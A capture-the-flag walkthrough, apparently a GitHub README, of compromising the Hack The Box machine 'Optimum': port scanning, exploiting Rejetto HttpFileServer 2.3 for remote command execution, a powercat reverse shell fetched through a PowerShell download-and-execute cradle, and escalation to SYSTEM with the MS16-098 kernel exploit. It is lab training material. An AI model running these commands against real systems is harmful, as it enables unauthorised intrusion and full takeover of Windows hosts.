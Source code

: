 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | ![](images/1.png) |

## Information Gathering

### Openning Services

```
┌──(Hades㉿10.10.14.5)-[1.3:22.4]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.8
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.8 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.8 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 23:47 +07
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.21 seconds
```

### HttpFileServer httpd 2.3

![](images/2.png)

Search exploits with `searchsploit`

```
┌──(Hades㉿10.10.14.5)-[1.5:20.3]~
└─$ searchsploit HttpFileServer 2.3         
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Ex | windows/webapps/49125.py
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### HttpFileServer RCE

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/optimum)

Using exploit `windows/webapps/49125.py`, I try to execute it to sent ping command `cmd.exe /c ping 10.10.14.5` and monitor icmp using `tcpdump`.

```
┌──(Hades㉿10.10.14.5)-[1.5:20.7]~/walkthrough/hackthebox/optimum
└─$ python3 49125.py 10.10.10.8 80 "cmd.exe /c ping 10.10.14.5"
http://10.10.10.8:80/?search=%00{.+exec|cmd.exe%20/c%20ping%2010.10.14.5.}
```

```
┌──(Hades㉿10.10.14.5)-[1.5:20.5]~
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:00:27.674206 IP 10.10.10.8 > 10.10.14.5: ICMP echo request, id 1, seq 1, length 40
00:00:27.674272 IP 10.10.14.5 > 10.10.10.8: ICMP echo reply, id 1, seq 1, length 40
<snip>
```

### PowerShell Reverse Shell

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/optimum)

Using powercat.ps1 to create ps file reverse shell.

```
┌──(Hades㉿10.10.14.5)-[0.1:13.9]~/walkthrough/hackthebox/optimum
└─$ pwsh
PowerShell 7.1.2
<snip>       

PS /<snip> . ./powercat.ps1
PS /<snip> powercat -c 10.10.14.5 -p 443 -e cmd.exe -g > shell.ps1
```

At kali machine, create a http server and a listener.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.7]~/walkthrough/hackthebox/optimum
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
```

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

Last step, execute payload with python3.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/optimum
└─$ cmd="powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"

┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/optimum
└─$ python3 49125.py 10.10.10.8 80 "$cmd"
http://10.10.10.8:80/?search=%00{.+exec|powershell.exe%20IEX%20%28New-Object%20System.Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.5/shell.ps1%27%29.}
```

## Privilege Escalation

### RGNOBJ Integer Overflow

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/optimum)

```
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
<snip>
System Type:               x64-based
<snip>
```

I copy the result of `systeminfo` to file `win-server-2012-6.3.9600.txt` and check it using [windows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
┌──(Hades㉿10.10.14.5)-[0.1:13.5]~/priescal/Windows-Exploit-Suggester
└─$ python windows-exploit-suggester.py --database 2021-04-03-mssb.xls --systeminfo ~/walkthrough/hackthebox/optimum/win-server-2012-6.3.9600.txt
<snip> 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
<snip>
[*] done
```

Because it is Windows x64, I using MS16-098 vulnerability.

Download binary file with `wget`.

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

Download file `41020.exe` to windows Server using power shell and execute it.

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/41020.exe','C:\Users\kostas\Desktop\41020.exe')"
```

```
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system

C:\Users\kostas\Desktop>
```